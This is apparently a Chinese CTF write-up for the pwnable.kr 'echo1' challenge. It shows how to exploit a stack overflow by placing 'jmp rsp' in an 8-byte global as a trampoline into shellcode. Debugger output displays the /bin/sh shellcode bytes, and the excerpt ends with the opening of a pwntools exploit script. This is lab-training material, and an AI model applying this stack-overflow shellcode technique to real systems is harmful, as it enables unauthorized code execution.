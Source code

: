 >   调试也能看出只能控制id的前8个字节
>
>   ![](http://ww1.sinaimg.cn/large/006AWYXBly1frvhmpb11dj30o80htdho.jpg)

整理一下目前的信息：

-   有arbitrary overflow的栈
-   有能控制的8个字节的全局变量
-   无NX和pie保护

不能直接ret2shellcode是因为不知道shellcode的地址，但我们知道id前8个字节的地址，这样就可以通过这8个字节当一个trampoline，跳到shellcode，我的思路是：

1.  控制id的前8个字节为"jmp rsp"(具体为什么是jmp rsp，通过调试可以清楚地显示)

    ```assembly
    ───────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────
       0x40085f       <echo1+71>    mov    rax, qword ptr [rip + 0x201832] <0x602098>
       0x400866       <echo1+78>    mov    rdi, rax
       0x400869       <echo1+81>    call   rdx
     
       0x40086b       <echo1+83>    mov    eax, 0
       0x400870       <echo1+88>    leave  
     ► 0x400871       <echo1+89>    ret             <0x6020a0; id>
        ↓
       0x6020a0       <id>          jmp    rsp
        ↓
       0x7fffce3ed600               push   rax
       0x7fffce3ed601               xor    rdx, rdx
       0x7fffce3ed604               xor    rsi, rsi
       0x7fffce3ed607               movabs rbx, 0x68732f2f6e69622f
    ───────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────
    00:0000│ rsp  0x7fffce3ed5f8 —▸ 0x6020a0 (id) ◂— jmp    rsp /* 0xe4ff */
    01:0008│      0x7fffce3ed600 ◂— 0x48f63148d2314850
    02:0010│      0x7fffce3ed608 ◂— 0x732f2f6e69622fbb
    03:0018│      0x7fffce3ed610 ◂— 0x50f3bb05f545368
    04:0020│      0x7fffce3ed618 —▸ 0x40000a ◂— add    byte ptr [rax], al
    05:0028│      0x7fffce3ed620 —▸ 0x7fffce3ed710 ◂— 0x1
    06:0030│      0x7fffce3ed628 ◂— 0x0
    07:0038│      0x7fffce3ed630 —▸ 0x400a90 (__libc_csu_init) ◂— mov    qword ptr [rsp - 0x28], rbp
    ```

    ​

2.  通过arbitrary overflow控制echo1的返回地址为id，然后通过id的跳板作用跳到shellcode

**talk is cheap, show you the code**

```python
pwnable_echo1 [master●●] cat sc.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *
from time import sleep
import sys
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]

elf = ELF("./echo1")
if sys.argv[1] == "l":
    context.log_level = "debug"
    # env = {'LD_PRELOAD': ''}
    # io = process("", env = env)
    io = process("./echo1")
```